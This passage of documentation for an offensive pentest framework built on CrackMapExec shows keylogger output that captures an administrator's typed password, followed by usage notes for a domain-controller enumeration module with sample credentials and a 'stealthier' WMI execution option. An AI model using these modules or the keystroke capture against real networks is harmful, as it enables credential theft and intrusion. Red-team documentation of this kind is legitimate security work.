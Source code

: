 ```
"o","Administrator: Command Prompt","11/29/2018 12:32:26 PM"
"t","Administrator: Command Prompt","11/29/2018 12:32:26 PM"
"<Shift>","Administrator: Command Prompt","11/29/2018 12:32:27 PM"
"@","Administrator: Command Prompt","11/29/2018 12:32:28 PM"
"1","Administrator: Command Prompt","11/29/2018 12:32:28 PM"
"0","Administrator: Command Prompt","11/29/2018 12:32:28 PM"
".","Administrator: Command Prompt","11/29/2018 12:32:29 PM"
"1","Administrator: Command Prompt","11/29/2018 12:32:29 PM"
"0","Administrator: Command Prompt","11/29/2018 12:32:29 PM"
".","Administrator: Command Prompt","11/29/2018 12:32:29 PM"
"1","Administrator: Command Prompt","11/29/2018 12:32:29 PM"
"0","Administrator: Command Prompt","11/29/2018 12:32:30 PM"
".","Administrator: Command Prompt","11/29/2018 12:32:31 PM"
"1","Administrator: Command Prompt","11/29/2018 12:32:31 PM"
"0","Administrator: Command Prompt","11/29/2018 12:32:31 PM"
"<Enter>","Administrator: Command Prompt","11/29/2018 12:32:32 PM"
"p","Administrator: Command Prompt","11/29/2018 12:32:34 PM"
"<Shift>","Administrator: Command Prompt","11/29/2018 12:32:34 PM"
"@","Administrator: Command Prompt","11/29/2018 12:32:34 PM"
"s","Administrator: Command Prompt","11/29/2018 12:32:35 PM"
"s","Administrator: Command Prompt","11/29/2018 12:32:35 PM"
"w","Administrator: Command Prompt","11/29/2018 12:32:36 PM"
"o","Administrator: Command Prompt","11/29/2018 12:32:36 PM"
"r","Administrator: Command Prompt","11/29/2018 12:32:36 PM"
"d","Administrator: Command Prompt","11/29/2018 12:32:36 PM"
"<Shift>","Administrator: Command Prompt","11/29/2018 12:32:36 PM"
"!","Administrator: Command Prompt","11/29/2018 12:32:36 PM"
"<Enter>","Administrator: Command Prompt","11/29/2018 12:32:37 PM"
~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## get_netdomaincontroller
### not currently working due to command length limits see https://github.com/byt3bl33d3r/CrackMapExec/issues/223  
Enumerates all domain controllers  

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true 

**Options:**
```
    INJECT    If set to true, this allows PowerView to work over 'stealthier' execution methods which have non-interactive contexts (e.g. WMI) (default: True)
```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M get_netdomaincontroller
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## get_netrdpsession 
### not currently working due to command length limits see https://github.com/byt3bl33d3r/CrackMapExec/issues/223          
Enumerates all active RDP sessions  
